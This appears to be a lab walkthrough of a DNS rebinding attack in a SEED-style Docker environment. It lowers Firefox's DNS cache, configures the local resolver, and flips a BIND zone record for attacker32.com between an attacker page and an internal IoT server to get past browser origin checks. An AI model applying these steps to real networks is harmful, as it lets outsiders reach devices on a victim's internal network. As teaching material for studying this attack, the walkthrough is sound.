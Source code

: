 # DNS Rebinding Steps

## Reduce DNS Cache (Firefox)
- Open Firefox > `about:config` > network.dnsCacheExpiration = 10

## Config DNS (Local DNS)
- Access http://www.seediot32.com/ (Termómetro)
- `sudo nano /etc/resolvconf/resolv.conf.d/head`
- `sudo resolvconf -u `
- Access http://www.attacker32.com/ (Countdown)

## Attacker DNS 
`$ docker exec -it attacker-ns-10.9.0.153 bash`
  - `nano /etc/bind/zone_attacker32.com`

```
# cat etc/bind/zone_attacker32.com
$TTL 2
@       IN      SOA   ns.attacker32.com. admin.attacker32.com. (
                2008111001
                8H
                2H
                4W
                1D)

@       IN      NS    ns.attacker32.com.

@       IN      A     10.9.0.180
;www     IN      A     10.9.0.180
www     IN      A     192.168.60.80
ns      IN      A     10.9.0.153
*       IN      A     10.9.0.100
```

`$ rndc reload attacker32.com`
`$ service named restart`

## Local DNS
`$ docker exec -it local-dns-server-10.9.0.53 /bin/sh -c 'rndc flush'`

## Attack

- Change /etc/bind/zone_attacker32.com to load malicious website

```
...
www     IN      A     10.9.0.180
;www      IN      A     192.168.60.80
...
```

`$ rndc reload attacker32.com`

- Change /etc/bind/zone_attacker32.com to load IoT server

```
...
;www     IN      A     10.9.0.180
www      IN      A     192.168.60.80
...
```

`$ rndc reload attacker32.com`